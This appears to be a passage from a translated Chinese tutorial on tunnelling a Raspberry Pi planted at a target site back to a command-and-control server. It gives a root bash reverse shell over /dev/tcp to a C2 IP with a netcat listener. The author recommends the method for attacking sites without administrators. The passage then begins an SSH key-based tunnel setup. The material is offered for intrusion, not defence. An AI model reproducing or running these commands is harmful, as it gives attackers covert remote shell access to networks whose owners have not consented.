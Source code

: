 这是在 Raspberry Pi 和 C2 服务器之间创建隧道的最简单的方法，因此你可以在服务器上控制 Pi。

在树莓 Pi 和 C2 服务器上，我们只需要一行命令。

**关于树莓派:**

```
sudo bash -i >& /dev/tcp/<C2 Server IP>/5555 0>&1
```

**在 C2 服务器上:**

```
nc -vv -l -p 5555
```

![](img/8b8ed1f24fa321b66793ff687751d1ea.png)

我会使用这种方法，当我知道攻击网站没有任何系统管理员，也没有在安全方面投入太多精力。您需要知道 TCP 流量是不加密的，因此很容易被捕获和检测到。

因此，在接下来的文章中，我将向您展示一种使用 SSH 协议的稍微安全的方法。一旦 Raspberry Pi 和 C2 服务器之间建立了连接，它们之间传输的数据就会被加密。

**方法 2 —使用 SSH 协议创建隧道**

为此，我们需要创建基于密钥的认证，这将使我们能够获得 Raspberry Pi 和 C2 服务器之间的 SSH 连接。

在 Raspberry Pi 上，我们将使用 **ssh-keygen** ，它将创建公钥和私钥:

```
sudo ssh-keygen -f ~/.ssh/vps -t rsa -N ""
```

复制公钥的输出(本例中公钥是 **vps.pub** )并将其内容粘贴到 **/root/中的 **authorized_keys** 中。C2 服务器上的 ssh** 目录，并重新启动 ssh 服务:

```
service ssh restart
```

测试 ssh 连接:

```
sudo ssh -i /home/pi/.ssh/vps root@<C2 Server IP>
```
